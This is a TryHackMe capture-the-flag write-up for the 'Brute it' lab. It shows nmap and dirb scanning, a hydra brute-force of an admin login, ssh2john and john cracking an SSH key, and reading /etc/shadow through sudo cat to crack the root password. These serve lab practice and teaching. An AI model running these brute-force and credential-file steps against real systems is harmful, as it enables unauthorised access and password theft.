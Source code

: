 ```yaml
---
title: Brute it - Easy THM
date: 2023-11-12 08:11:31 +/-0800
categories: [writeup, tryhackme]
writeup: :title
permalink: /bruteit
tags: [Web]     # TAG names should always be lowercase
---
```


- OS: Linux
- Difficulty: Easy
- Author: Talace🌌

## Scanning 👀

#### **Threader3000**
```bash
python3 threader3000.py

Port 80 is open
Port 22 is open
```
#### **nmap scan**
```bash
nmap -p80,22 -sV -sC -T4 -Pn -oA 10.10.205.60 10.10.205.60

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Enumeration 🧐

#### Starting by enumerate the website with **dirb** 🧐
```bash
dirb http://10.10.205.60/ /usr/share/wordlists/dirb/common.txt

http://ip/admin/
```
Found a form login on the /admin/

![loginForm](/assets/bruteit/loginform.png)

#### Let's brute force it with **hydra**
```bash
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.205.60 http-post-form "/admin/:user=admin&pass=^PASS^:Username or password invalid"
```

### Found the creds! 😼

![hydraBruteForce](/assets/bruteit/hydraBruteForce.png)

We now got access to this page, we have the user's **flag** (youhou!), a user name's **John**, and a **private key ssh**

![panelAdmin](/assets/bruteit/panelAdmin.png)

#### Let's use **ssh2john** to crack it! 🤠
```bash
echo 'private rsa key' >> id_rsa

ssh2john id_rsa > id_rsa.hash

john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

### **We got the password!**

![johnCrackRsa](/assets/bruteit/johnCrackRsa.png)

## Privilege escalation 🐧

Connect via ssh
```bash
chmod 400 id_rsa

ssh -i
```

#### Looking for sudo rights and found this banger!
```bash
sudo -l

(root) NOPASSWD: /bin/cat
```

Let's use it for our own!
```bash
LFILE=/etc/shadow

sudo cat "$LFILE"
```

Now that i can read /etc/shadow, i'm going to crack it with unshadow && john

#### unshadow & john
```bash
echo 'root:x:0:0:root:/root:/bin/bash' >> passwd.txt

echo 'root:hash' >> shadow.txt

unshadow passwd.txt shadow.txt > unshadow.txt
```

It's time to crack it!
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt unshadow.txt
```

### And me able to get root! Brute it is pwned! 😼

![root](/assets/convertMyVideo/root.png)

## Resources 🤖
[GTFObins : https://gtfobins.github.io/gtfobins/cat/](https://gtfobins.github.io/gtfobins/cat/)
